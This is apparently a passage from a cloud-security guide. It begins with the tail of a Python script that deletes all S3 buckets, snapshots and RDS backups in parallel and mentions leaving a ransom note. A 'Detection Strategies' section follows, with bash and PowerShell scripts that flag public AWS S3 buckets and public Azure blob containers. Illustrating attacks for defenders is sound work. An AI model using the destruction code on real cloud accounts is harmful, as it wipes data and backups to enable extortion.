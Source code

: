 ```python
            DeleteAutomatedBackups=True
        )

# Parallel execution (complete destruction in <5 minutes)
with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    buckets = [b['Name'] for b in s3.list_buckets()['Buckets']]
    executor.map(destroy_bucket, buckets)
    executor.submit(destroy_snapshots)
    executor.submit(destroy_rds_backups)

# Upload ransom note to remaining accessible location
# (email, public S3 bucket, etc.)
```

---

## Detection Strategies

### 1. Public Access Monitoring

**AWS - S3 Public Bucket Detection:**

```bash
# Identify buckets with public access
aws s3api list-buckets --query 'Buckets[].Name' --output text | while read bucket; do
  public_access=$(aws s3api get-public-access-block --bucket $bucket 2>&1)
  
  if [[ $public_access == *"NoSuchPublicAccessBlockConfiguration"* ]]; then
    echo "WARNING: $bucket has no public access block"
  fi
  
  # Check bucket policy for public access
  policy=$(aws s3api get-bucket-policy --bucket $bucket 2>&1)
  if echo "$policy" | grep -q '"Principal":\s*"\*"'; then
    echo "CRITICAL: $bucket has public bucket policy"
  fi
done
```

**Azure - Public Blob Detection:**

```powershell
# Find storage accounts with public blob access
$storageAccounts = Get-AzStorageAccount

foreach ($account in $storageAccounts) {
    $ctx = $account.Context
    $containers = Get-AzStorageContainer -Context $ctx
    
    foreach ($container in $containers) {
        if ($container.PublicAccess -ne "Off") {
            Write-Host "WARNING: $($account.StorageAccountName)/$($container.Name) is public"
        }
    }
}
```
